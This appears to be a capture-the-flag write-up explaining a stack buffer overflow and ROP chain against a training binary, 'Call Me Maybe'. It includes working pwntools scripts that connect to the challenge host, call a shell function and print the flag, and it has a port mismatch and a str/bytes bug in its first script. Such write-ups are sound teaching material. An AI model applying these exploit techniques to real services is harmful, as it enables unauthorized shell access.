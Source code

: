 # Call Me Maybe

---

### Challenge Description

> Want a shell? Just give it a call! You'll to show some verification though.

> Interact with the service at: 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:3020

[callmemaybe.zip](https://github.com/caprinux/Cyberthon-2021-Training/files/6330465/callmemaybe.zip)

---

### Solution

Running the binary, we see that it takes in an input Contact, and calls the contact. Maybe you could try calling yourself on this service...

We look at our source code.

```c
void shell(int checker)

{
    char command[8] = "/bin/sh\x00";
    if (checker == 0xDEADBEEF) {
        system(command);
    } else {
        puts("Unauthorized.");
    }
}

int main()
{
    char contact[64];
    ... ... (some long useless ascii text)
    printf("Enter Contact => ");
    scanf("%s", contact);
    printf("Calling %s...\n", contact);
    return 0;
}

```

As we can see, it takes in an input with scanf, and does not limit the number of bytes of input. 

It stores our input into contact which only holds 64 bytes of input.

This gives us a buffer overflow.

We can also see that there is a `shell(int checker)` function which pops us a shell. This is probably our objective, to pop a shell on the remote service.

The function takes in an argument and check it against '0xDEADBEEF' to give us our shell.

How can we possibly call the shell function? If you are unsure, read this [shell](https://github.com/caprinux/Cyberthon-Training/tree/main/Livestream%20Training/shell) from Cyberthon live-stream training which talks about ret2win and goes in depth to explain it.

So the idea is that you can overflow Contact to overwrite return address and return to the Shell() function.

However, how do we send an argument to shell to pass the check and gives us our shell?

We have to go back to assembly and how arguments are taken in.

In AMD64, or 64 bit binaries, when any function is called, i.e. printf, scanf, puts etc. an argument is passed to the function. 

This argument is passed through registers, RDI, RSI, RDX.

In this case, since it only takes in 1 argument, and compares it, it will look something like this in assembly:

```asm
mov DWORD PTR [rbp-0x14], rdi
cmp DWORD PTR [rbp-0x14], 0xdeadbeef
```

The argument in RDI will be stored on the stack and compared against 0xDEADBEEF.

The question now is: How do we put an argument into the register? 

This is where [Return Oriented Programming](https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html) comes in. 

The crux of the idea is that, our binary contains many small instructions that we can return to. These small instructions are called gadgets.

Since we know how to overflow the Contact variable and take control of the return address, if we can find a gadget that does `pop RDI ; ret`, we can return to that gadget, pop a value into rdi, and then call the shell function.

How do we find ROP gadgets then? This tool will be ur best friend,[ROPGadget Tool](https://github.com/JonathanSalwan/ROPgadget).

Now that we have everything, let's think about our exploit.

Contact holds 64 bytes. So to overflow contacts and reach our return address, we will need a buffer of 64 + 8 bytes.

Next, we find our pop rdi gadget. 

![image](https://user-images.githubusercontent.com/76640319/115134028-61418600-a03f-11eb-827b-727ff99031ac.png)

Got it. Our `pop RDI ; ret` gadget is at 0x400873.

Now we find the address of our shell function.

![image](https://user-images.githubusercontent.com/76640319/115134040-7b7b6400-a03f-11eb-8978-42d6357b0157.png)

Got it. Our shell function is at 0x4006ea. 

Let's also get a `ret` gadget to make things cleaner when we return to `pop rdi` after our main() function.

![image](https://user-images.githubusercontent.com/76640319/115134093-ecbb1700-a03f-11eb-984a-fba9f41f0885.png)

Got it. Our ret gadget is at 0x40055e

Let's craft our exploit now.

```py
from pwn import * # import pwntool library

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30201) # connect to remote service

payload = ''

payload += b"A"*64 + b"A" * 8 # overflow our buffer
payload += p64(0x40055e) # ret gadget
payload += p64(0x400873) # pop rdi gadget
payload += p64(0xDEADBEEF) # argument
payload += p64(0x4006ea) # ret to shell function

p.sendline(payload) # send payload
p.interactive() # interact with service
```

![image](https://user-images.githubusercontent.com/76640319/115134169-70750380-a040-11eb-89d6-2bc0943cfe01.png)

```
CTFSG{h3y_1_ju5t_m3t_y0u_but_1_g0t_sh3ll}
```

---

### Teaser

Could you possibly automate and find all your gadgets at runtime? 

Here was my actual exploit script I used. 

```py
from pwn import *

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30201)
context.binary = './callmemaybe'
elf = ELF('callmemaybe')
rop = ROP(elf)

poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

p.sendline(b"A"*72 + p64(ret) + p64(poprdi) + p64(0xdeadbeef) + p64(elf.sym['shell']))

p.interactive()
```
